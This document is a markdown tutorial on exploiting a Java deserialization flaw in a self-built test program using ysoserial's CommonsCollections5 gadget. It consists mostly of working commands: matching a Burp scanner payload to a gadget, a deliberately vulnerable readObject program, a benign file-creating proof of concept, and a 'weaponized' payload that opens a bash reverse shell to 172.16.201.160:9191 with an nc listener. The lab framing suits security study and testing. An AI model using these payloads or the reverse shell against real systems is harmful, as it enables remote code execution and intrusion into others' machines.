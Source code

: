 #### 3.1. Info

The following example will show how to exploit a deserialization vulnerability triggered via `readObject` method in a dummy test application.

Scenario:

- vulnerability was detected via Burp extension `https://github.com/federicodotta/Java-Deserialization-Scanner`
  - `Apache Commons Collections 3 Alternate payload 2 (Sleep)`

- our task is to exploit the vulnerability via `https://github.com/frohoff/ysoserial` 
  - this provides user-defined payloads (unlike benign `sleep` command)
  - `CommonsCollections5` payload is similar to Burp's


#### 3.2. Match the Burp scanner payload with the `yseoserial` gadget

```
# payload_str=`grep -r 'Commons Collections 3 Alternate payload 2 (Sleep)' ~/Java-Deserialization-Scanner | grep -oE '\"rO0AB.*\"' | tr -d '"' | tr -d '\n' | head -c 32`
# options=`java -jar ~/ysoserial.jar 2>&1 | grep -i 'commons-collections:3.1' | awk '{print $1}'`
# for i in $options; do java -jar ~/ysoserial.jar $i ls 2>/dev/null | base64 | grep -oE $payload_str && echo $i; done
rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50
CommonsCollections5
```
Note: this indicates that `CommonsCollections5` from `yseoserial` is the gadget identified to work with the target.


#### 3.3. Project setup (vulnerable application)

a) The following code `/tmp/java_serial/Main.java` simply reads a file that contains a serialized Java steam, attempts to re-build the original Java object:
```
import java.io.*;

public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        if (args.length != 1) return;
        String filename = args[0];
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object whatever = ois.readObject(); // hereby the vulnerable code
    }
}
```

b) After building `ysoserial` from source, all JAR dependencies that contain the required gadgets can be found under the local `maven` repository:
```
# find ~/.m2 -regex ".*commons.*collections.*3.1.*.jar" -exec cp -- "{}" /tmp/java_serial/ \;
```

c) Project structure - `/tmp/java_serial`:
```
# tree
.
├── collections5.serial
├── commons-collections-3.1.jar
└── Main.java

0 directories, 3 files
```

d) Compiling the program:
```
# javac Main.java # compile as regular Java program
# javac -cp commons-collections-3.1.jar: Main.java # in case classes from JAR file are imported in the Java program
```


#### 3.4. Exploitation - part 1 (benign)

Note:
- it is enough to provide the gadget JAR as part of the Java Class Path when running the application (similar to WebLogic)
- after running the program, successful exploitation creates `/tmp/this_is_a_test` file

a) Generate the `ysoserial` payload for `CommonsCollections5`:
```
# java -jar ~/ysoserial.jar CommonsCollections5 'touch /tmp/this_is_a_test' > /tmp/java_serial/collections5.serial
```

b) Exploitation - PoC:
```
# [ -e /tmp/this_is_a_test ] && echo 'OK' # does not print out anything
# java -cp commons-collections-3.1.jar: Main collections5.serial
# [ -e /tmp/this_is_a_test ] && echo 'OK'
OK
```


#### 3.5. Exploitation - part 2 (weaponized)

Note: remember to patch `ysoserial` - `CommonsCollections5.java` before running complex commands as part of your payload.

a) Generate the `ysoserial` payload for `CommonsCollections5`:
```
# java -jar ~/ysoserial.jar CommonsCollections5 "/bin/bash -i >& /dev/tcp/172.16.201.160/9191 0>&1" > /tmp/java_serial/collections5.serial
```

b) Exploitation - PoC:
```
# java -cp commons-collections-3.1.jar: Main collections5.serial
# nc -nlvp 9191
listening on [any] 9191 ...
connect to [172.16.201.160] from (UNKNOWN) [172.16.201.160] 56546
...
```
